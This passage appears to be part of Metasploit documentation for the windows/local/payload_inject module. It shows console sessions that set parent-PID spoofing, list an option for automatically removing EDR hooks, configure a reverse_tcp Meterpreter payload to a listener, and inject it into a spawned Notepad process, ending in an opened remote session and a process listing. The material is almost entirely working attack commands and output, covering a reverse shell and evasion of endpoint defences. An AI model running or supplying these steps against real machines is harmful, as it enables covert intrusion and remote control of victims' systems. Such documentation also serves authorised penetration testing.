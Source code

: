 ```
meterpreter > getpid
Current pid: 684
meterpreter >

```

### Windows 10x64 Build 17134 No PID
```
msf exploit(windows/local/payload_inject) > set PPID 3632
PPID => 3632
msf exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         3632             no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Running module against DESKTOP-D1E425Q
[*] Spawned Notepad process 1528
[*] Spoofing PPID 3632
[*] Injecting payload into 1528
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 1528
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49677) at 2020-01-22 13:16:31 -0600

meterpreter > getpid
Current pid: 1528
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]
```